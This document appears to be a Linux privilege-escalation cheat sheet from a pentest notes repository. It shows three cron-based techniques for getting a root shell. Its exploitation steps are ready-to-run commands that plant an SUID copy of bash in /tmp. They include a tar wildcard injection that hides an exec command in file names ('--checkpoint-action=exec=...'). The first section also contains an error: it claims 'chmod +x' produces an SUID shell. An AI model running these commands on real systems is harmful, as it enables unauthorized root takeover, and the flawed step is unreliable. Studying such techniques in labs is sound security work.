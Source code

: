 # Escalation via Scheduled task (Cron)

## Path

### Enumeration

- We have to check in the crontab for example with `cat /etc/crontab` if we can not read this file we still could check other ways to enumerate scheduled task using [payload all the things documentation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#scheduled-tasks) or an enumeration tool like linpeas
- In our example the system will try to run a file that does not exist (if we ls in home/user we do not see it)   
![image](https://user-images.githubusercontent.com/96747355/170375060-4d8fc104-2b34-4dc8-82e1-86eefe247b1b.png)  
- So we can try to create a file named overwrite.sh and make it escalate privileges

### Exploitation

- `echo 'cp /bin/bash /tmp/bash; chmod +x /tmp/bash' > /home/user/overwrite.sh` we create our overwrite file. Our script will create a bash with suid priv
- `chmod +x /home/user/overwrite.sh` we need to make it executable
- `/tmp/bash -p` we execute it and we get root  
![image](https://user-images.githubusercontent.com/96747355/170377045-4b98a2fb-2d52-43ea-bfc7-1b84f8d78e5a.png)  

## Wildcards

### Enumeration

- `cat /etc/crontab` in our example we have a `/usr/local/bin/compress.sh`  
![image](https://user-images.githubusercontent.com/96747355/170485258-123fce9b-325f-4450-a7c8-de8edf88b3ef.png)  
- We can have a look at the script `cat  /usr/local/bin/compress.sh`  
![image](https://user-images.githubusercontent.com/96747355/170486526-94adfcff-62fd-46d2-8920-72c284644a31.png)  
- The script goes to the user home and makes a backup of the content using a wildcard `*` and stores it in tmp
- We can not modify the script so we need to do something that uses the script to get our privesc. In order to do so we can do command related to tar as the script uses it.

### Exploitation

- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh` we create a malicious bash
- `touch /home/user/--checkpoint=1` when the scheduled script is going to read the home directory it will have a file named as a tar command, so it will interpret it. This command displays a status message every 1 
- `touch /home/user/--checkpoint-action=exec=sh\ runme.sh` then this command is going to make and action when the checkpoint we created before is hit
- After a minute we can then launch our bash `/tmp/bash -p`
- We should be root!  
![image](https://user-images.githubusercontent.com/96747355/170489169-16815170-1f9e-4822-b9ad-539e6e3ea19c.png)  

## Cron files overwrite

### Enumeration

- `cat /etc/crontab` in our example we will use the file overwrite.sh  
![image](https://user-images.githubusercontent.com/96747355/170490233-f04c2ed3-b9d9-43ff-a28c-9e2f2e5c5044.png)  
- We locate where is the file using `locate overwrite.sh`
- Check the permission on the file we want to overwrite `ls -l /usr/local/bin/overwrite.sh`  
![image](https://user-images.githubusercontent.com/96747355/170490298-b00a49a7-ab58-4410-bfe3-18a45927d3eb.png)  
- We can overwrite it

### Exploitation

- `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh` We are overwriting the file with a command that will copy bash and give it suid perms
- After a minute we should be able to launch `/tmp/bash -p`
- We should be root!  
![image](https://user-images.githubusercontent.com/96747355/170490883-6c7020b8-fe46-4c8e-9041-c751990ebb33.png)  
